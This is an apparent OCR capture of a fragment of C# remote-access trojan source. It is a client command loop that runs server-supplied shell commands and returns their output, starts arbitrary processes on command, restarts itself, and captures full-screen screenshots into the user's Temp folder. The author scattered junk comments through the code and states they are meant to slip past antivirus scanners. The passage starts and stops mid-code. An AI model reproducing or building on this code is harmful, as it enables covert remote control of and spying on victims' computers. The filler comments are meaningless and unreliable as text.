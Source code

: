                     // SADSG23L120LDDDDD #YOUARECOOL
                    ClientReply = Shell(ServerReply);
                    // SADSG23L120LDP # mADE bY h0PSI
                    if (ClientReply.Length > 65500)
                    // SADSG23L120LDP wHY aRE yOU rEADING tHE sOURCE?
                    {
                        // SADSG23L120LDPSADSG23L120LDPSADSG23L120LDP
                        ClientReply = "Error, To large output 65500 < " + ClientReply.Length;
                        // SADSG23L120LDP sTILL rEADING????????
                    }
                    // SADSG23L120LDP bRO sTOP
                }
                // SADSG23L120LDP #tIKtOK-gAY
                else if (ServerReply.ToLower().Trim() == "exi")
                // SADSG23L120LDP wANT mE TO eXPLAIN tHE cODE?
                {
                    // SADSG23L120LDP hERE wE arE rESTARTING tHE tROJAN1
                    clientSocket.Close();
                    // SADSG23L120LDP hERE wE arE rESTARTING tHE tROJAN2
                    System.Windows.Forms.Application.Restart();
                    // SADSG23L120LDP lOOOOOOOOOOOOOOOOOl
                }
                // bRO aRE yOU rEADING tHIS cOMMENTS??????
                else if (ServerReply.ToLower().StartsWith("opf"))
                // iGNORE tHESE mESSAGES, wHILE rEVERSE eNGENEERING tHIS cODE
                {
                    // aDD mE oN dC ABC#8366
                    try
                    // d0 y0U sPEAK dENGLISCH????
                    {
                        // i0000000000 LOLLLLLLLLLLLLLL
                        Process.Start(ServerReply.Substring(4, ServerReply.Length - 4));
                        // iF yOU wODNDER, iM tRYING TO bYPASS sOME aNTI-vIRUSES
                        ClientReply = "Success.";
                        // DOSPAKDOOOOOOOOOOOOOOOOOOOOOOODDDDDDDDDDDDDDDD
                    }
                    // SDPADSAKDSOSAKDOASKDOPSAKDOSAKDOPAKSDPKASDPOAKD
                    catch
                    // iM dONE tALIKIN', iM jUST gONNA wRITE sOME nONSENSE
                    {
                        // 3O1203210I3021930213902139210391203123
                        ClientReply = "Error.";
                        // 2319839128391283912389128391839218391238
                    }
                    // 32091301838593289083492869038948329483290482094
                }
                // 231758327871293721893791837912738921739821731273981
                else if (ServerReply.ToLower().StartsWith("cap"))
                // 2389183092183091398127398718937123897139871283712893721
                {   
                    // 2318391283912839218301283901283091283902183                    
                    string pth = @"C:\Users\" + Environment.UserName + @"\AppData\Local\Temp\" + $"w00xQ-{DateTime.Now.ToString("dd-HH-mm-ss-fff")}";
                    // 3218391839128908604938950389483294832048329482343244444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444
                    Bitmap bmp = new Bitmap(Convert.ToInt32(Math.Round(SystemParameters.VirtualScreenWidth)), Convert.ToInt32(Math.Round(SystemParameters.VirtualScreenHeight)));
                    // 32183918391289086049389503894832948320483294823432444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444443222222222
                    Graphics gr = Graphics.FromImage(bmp);
                    // DSAODK023K1E092K19FJ912J09EJ19D2J0192JD021JD091JD901J2D091
                    gr.CopyFromScreen(0, 0, 0, 0, bmp.Size);
                    // 2K19KE912KE0921KE0912KE9012KE12KE091KE0912KE0912KE0912KE901EK0912
                    bmp.Save(pth, System.Drawing.Imaging.ImageFormat.Png);